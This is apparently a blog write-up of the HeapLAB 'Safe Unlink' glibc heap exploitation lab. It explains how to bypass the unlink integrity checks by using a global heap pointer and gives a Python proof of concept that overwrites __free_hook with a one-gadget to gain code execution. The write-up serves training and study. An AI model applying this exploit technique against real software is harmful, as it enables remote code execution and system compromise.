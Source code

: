 ```yaml
---
layout: post
title:  "HeapLAB 1 - Safe Unlink"
date:   2022-12-07 20:01:01 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Exploitation

The modern version of the unlinking technique, `safe unlink`, is abit more complex, as mitigations were added. 

The new partial unlinking algorithm introduces 3 new integrity checks:

1. `chunksize(p) != prev_size(next_chunk(p))`
In case we control the `prev_size` of the next chunk, this can be easily bypassed. 

2. `fd->bk != p || bk->fd != p`
This is an harsh mitigation. \
We either have to write near the fake target addresses: `bk, fd` ptrs that points back to the chunk being freed. \
Another option is to find memory regions that contains pointers towards `p`. 

3. `p->fd_nextsize->bk_nextsize != p || p->bk_nextsize->fd_nextsize != p`
This is only relevant for `largebins`, similar to the above. 

The example binary contains a `glibc = 2.30`, with `NX, ASLR, Full RELRO, canary`. 

Note that there are also pointers of the heap stored at the `.bss`, within the `m_array` variable. \
The trick is to use these pointers, so that the `safe_unlink` checks may pass. 

As with the `unsafe unlink`, after a successful unlinking, the following 2 writes would occur:

```c
*(A->bk + 0x10) = A->fd;
*(A->fd + 0x18) = A->bk;
```

Moreover, the two new constraints due to the improved mitigation are (assuming the `size` check can be easily bypassed):

```c
(A->bk)->fd == A
(A->fd)->bk == A
```

Meaning:

```c
*(A->bk + 0x10) == A
*(A->fd + 0x18) == A
```

So there would be a total of 2 writes, and 2 constraints. 

Recall that the writes are only being made after the constraints have succesfully passed. \
So it *DOESN'T* mean the solution must enforce the following criteria: `A->fd == A->bk == A`.

Note that it is actually pretty common to see global pointers towards the heap. \
On our example binary, we have `m_array`, which is a global pointer at `0x602060`, that stores the value of `A` address, `0x603010`. \
(Note that this is the `user_content` part memory address, not the full chunk's start address! \
we will fix this by referring the chunk as being started 0x10 bytes away from its real start address, `0x603000`). 

In case we set `A->fd + 0x18` to the address of `m_array`, the last check should would pass - because `*(0x602060) == 0x603010`. \
The same holds for `A->bk + 0x10`. \

So the two constraints are being translated to:

```c
A->bk = &m_array - 0x10
A->fd = &m_array - 0x18
```

This would result with corrupting the quadword at `&m_array` with the value of `&m_array - 0x18` (as it is being the last write), and succesfully unlinking the consolidated chunk. 

As said, we must make sure that the global pointer, `m_array`, points towards the *real* chunk heap address, and not only to its `user_data` part. 

In order to overcome this, recall that we control `prev_size` field of the freed chunk. \
Since Malloc uses this field to determine the previous chunk start address, we can trick it so that it will think the chunk starts 0x10 bytes after its real address. 

Now, recall that after the unlink has occured, `m_array[0] = &m_array - 0x18`. \
It means the `m_array` would contain a pointer towards the `.bss`, instead of the heap. \
A simple request to write to index 0 of the array results with an overflow of the `target` address.

Full RCE POC:

```python
# Request 2 small chunks.
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Prepare fake chunk metadata - this setting of fd and bk is required to bypass the new mitigations
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10
# We have to fake the previous allocated chunk size to 0x10 bytes below its original size, because m_array points at its user_content, not the chunk's start
prev_size = 0x80
# Set PREV_INUSE = 0, although the previous chunk IS allocated! this will allow the chunks consolidation
fake_size = 0x90

# Set new prev_size and size
chunk_a_prev_size = p64(0)
# Because of the size mitigation, it must match with the prev_size of the next chunk, which we set to 0x80 above
chunk_a_size = p64(0x80)  
# Note the total length of chunk_A should now appear as a total of 0x80
edit(chunk_A, chunk_a_prev_size + chunk_a_size + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

# Trigger consolidation of chunk_A (because it is marked as not used), thus unlinking it
free(chunk_B)

# Now m_array[0] points to the .bss instead of the heap, overwrite it with our target address
edit(0, b"A" * 0x18 + p64(libc.sym.__free_hook))

# Overwrite the target data with onegadget
edit(0, p64(libc.address + 0xe1fa1))

# Trigger onegadget
free(chunk_A)
```

Note that I've chose a fake `prev_size = 0x80`. \
It is possible to forge a large `prev_size` field, so that the consolidation attempt wraps around the VA space, and operate on a fake chunk within the freed chunk (meaning we can set its `size` value so the integrity check of `size(p) == prev_size(next(p))`would pass). 
